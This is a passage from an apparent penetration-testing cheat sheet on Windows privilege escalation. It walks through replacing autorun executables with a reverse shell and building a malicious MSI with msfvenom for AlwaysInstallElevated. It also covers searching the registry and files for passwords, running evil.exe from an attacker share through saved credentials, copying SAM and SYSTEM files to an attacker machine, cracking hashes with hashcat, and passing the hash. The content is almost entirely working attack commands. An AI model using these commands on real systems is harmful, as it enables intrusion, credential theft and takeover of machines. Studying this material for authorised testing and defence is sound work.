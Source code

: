 
### Registry

**AutoRuns**
1. Query the registry for AutoRun executables: `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
2. Use AccessChk to check write permissions of the executables `C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\<program>.exe"`
3. Overwrite the reverse shell executables in the `<program>` path: `copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`
4. Start a listener on the attacker machine. A new session on the victim machine will trigger a reverse shell running with admin privileges

**AlwaysInstallElevated**
1. Query the registry for AlwaysInstallElevated keys: `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
   - Note if both keys are set to 1 (`0x1`)
2. Generate a reverse shell installer `.msi` with `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o reverse.msi`
3. Transfer the installer `.msi` to the Windows machine
4. Start a listener on the attacker machine and then run the installer to trigger a reverse shell running with SYSTEM privileges: `msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

### Passwords

**Registry**
1. Search for keys and values that contain the word "password"
   - `reg query HKLM /f password /t REG_SZ /s`
   - `reg query HKCU /f password /t REG_SZ /s`
2. If you have found an admin and its password, use [winexe](https://www.kali.org/tools/winexe/) command from the attacker machine to spawn a command prompt running with the admin privileges `winexe -U 'admin%password' //<IP> cmd.exe`

**Saved Credentials**
1. Check for any saved credentials `cmdkey /list`
2. Start a listener on the attacker machine and run the reverse shell executable using `runas` with the admin user's saved credentials: `runas /savecred /user:admin C:\PrivEsc\reverse.exe` or `runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"`

**Search for Configuration Files**
1. Run the commands: `dir /s *pass* == *.config` and `findstr /si password *.xml *.ini *.txt`
2. Use winPEAS to search for common files which may contain credentials: `.\winPEASany.exe quiet cmd searchfast filesinfo`
   - also run `.\winPEASx64.exe windowscreds filesinfo fileanalysis searchpf log=winpeas_out.txt`

**Security Account Manager (SAM)**
1. The `SAM` and `SYSTEM` files can be used to extract user password hashes. Check also backups of these files
   - `copy C:\Windows\Repair\SAM \\<IP>\kali\`
   - `copy C:\Windows\Repair\SYSTEM \\<IP>\kali\`
2. Dump the hashes with "creddump7": `python3 creddump7/pwdump.py SYSTEM SAM`
3. Crack the hashes with `hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt`

**Passing The Hash**
1. Use the hashes to authenticate: `pth-winexe -U 'admin%hash' //<IP Victim> cmd.exe`
